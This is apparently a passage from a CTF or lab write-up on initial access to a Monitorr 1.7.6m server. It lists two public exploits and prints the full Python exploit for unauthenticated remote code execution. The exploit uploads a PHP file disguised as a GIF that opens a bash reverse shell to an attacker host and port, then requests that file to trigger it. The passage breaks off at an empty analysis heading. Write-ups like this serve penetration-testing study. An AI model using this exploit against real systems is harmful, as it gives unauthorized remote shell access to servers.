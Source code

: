 ### Initial Access :-

As per searchsploit there are two exploits for monitorr version 1.7.6m. So let's see them one by one.

**Monitorr 1.7.6m - Remote Code Execution (Unauthenticated) --> EDB-ID:48980**

**Monitorr 1.7.6m - Authorization Bypass --> EDB-ID:48981**

**Analysis of Monitorr 1.7.6m - Remote Code Execution (Unauthenticated) --> EDB-ID:48980 :-**

**Python Code :-**
```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```
**Analysis:-**
